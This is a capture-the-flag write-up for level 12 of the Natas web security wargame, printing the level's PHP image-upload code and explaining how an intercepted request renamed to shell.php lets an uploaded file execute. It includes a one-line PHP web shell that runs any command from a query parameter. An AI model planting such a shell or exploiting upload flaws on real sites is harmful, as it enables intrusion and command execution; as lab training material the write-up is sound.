





# Level 12
This level was fun to solve.

## Quest
We are presented with below page, with option to upload an image.



Below is the backend code for this page. I'll provide relevant comments
```php
<? 
function genRandomString() {        // This function generates a random 10 digit string
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {     // generate a full path with 2 input parameters
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {   // It calls above function, with extension like jpg
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {   
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);   // returns full path starting with 'upload' directory


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />    // Set a random value of filename with .jpg extension
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
```

<br/><br/>

## Solution
The first 3 functions basically concern with generating a random name of the file uploaded. First i'll try to upload a simple PHP shell and see what happens.<br/>
Our simple PHP shell
```php
<?php echo '<pre>' . shell_exec($_GET["cmd"]) . '</pre>' ?>
```
Above shell, executes command present in `cmd` query parameter.
We will see this with Burp



Now, if we go to the URL where our image is uploaded, it doesn't execute our shell as it treats is like a `.jpg` file.
<br/><br/>
We again try to upload our shell but this time, we intercept the reqeust via burp and change the `filename` parameter to `shell.php`. See below

Now our file is uploaded with `.php` extension
<br/><br/>
We Test our shell by adding the query parameter `cmd=ifconfig`. We see that if runs


Finally, we try to get the password for next Level

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
